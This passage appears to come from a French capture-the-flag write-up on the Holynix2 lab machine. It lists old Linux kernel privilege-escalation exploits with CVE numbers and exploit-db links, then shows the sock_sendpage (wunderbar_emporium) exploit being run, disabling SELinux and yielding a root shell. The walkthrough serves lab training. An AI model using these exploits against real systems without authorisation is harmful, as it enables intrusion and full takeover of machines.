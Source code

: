 ```bash
  [11] pipe.c_32bit
      CVE-2009-3547
      Source: http://www.securityfocus.com/data/vulnerabilities/exploits/36901-1.c
  [12] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] sock_sendpage
      Alt: wunderbar_emporium       CVE-2009-2692
      Source: http://www.exploit-db.com/exploits/9435
  [15] sock_sendpage2
      Alt: proto_ops       CVE-2009-2692
      Source: http://www.exploit-db.com/exploits/9436
    [16] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
  [17] vmsplice1
      Alt: jessica biel       CVE-2008-0600
      Source: http://www.exploit-db.com/exploits/5092
```

Je me suis arrêté sur `sock_sendpage` :

```bash
amckinley@holynix2:/tmp/wunderbar_emporium$ ./wunderbar_emporium.sh 
 [+] MAPPED ZERO PAGE!
 [+] Resolved selinux_enforcing to 0xc04adf54
 [+] Resolved selinux_enabled to 0xc04adf58
 [+] Resolved security_ops to 0xc04ac4a0
 [+] Resolved sel_read_enforce to 0xc01dea10
 [+] Resolved audit_enabled to 0xc049c3a0
 [+] got ring0!
 [+] detected 2.6 style 8k stacks
sh: mplayer: not found
 [+] Disabled security of : nothing, what an insecure machine!
 [+] Got root!
# id
uid=0(root) gid=0(root) groups=100(users)
```

*Publié le 5 décembre 2022*


